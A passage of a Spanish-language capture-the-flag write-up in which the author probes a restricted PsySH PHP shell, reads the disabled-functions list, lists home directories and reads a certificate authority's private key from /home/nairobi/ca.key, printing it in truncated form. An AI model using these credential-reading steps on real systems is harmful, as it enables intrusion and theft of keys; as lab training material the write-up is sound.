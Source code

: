 Tenemos una extraña shell de PHP, donde podemos mandar comandos
```php
ls
Variables: $tokyo

dump $tokyo
Tokyo {#2307}

echo $tokyo;
PHP Recoverable fatal error:  Object of class Tokyo could not be converted to string in phar://eval() decode on line 1

show $tokyo
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```

En este código estan mostrando que crean un certificado x509 con el archivo `/home/nairobi/ca.key`
Podemos correr ciertos comandos propios de php (al igual que hacer `php --interactive`), pero no es tal cosa ya que por ejemplo no necesitamos
`print_r` para comandos como `scandir`
```php
echo 3 + 3;
6⏎

system("whoami");
PHP Fatal error:  Call to undefined function system() in Psy Shell code on line 1

phpinfo()
PHP Version => 7.2.10
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

print_r(scandir("/home");
PHP Parse error: Syntax error, unexpected ';', expecting ')' on line 1
```

Seguimos probando cosas, por ejemplo mirar `/home/nairobi/ca.key`
```php
scandir("/home");
=> [ ".", "..", "berlin", "dali", "nairobi", "oslo", "professor", ]

file_get_contents("/home/nairobi/ca.key");
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   ...
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """
```
--------------------------
# Certificado ssl
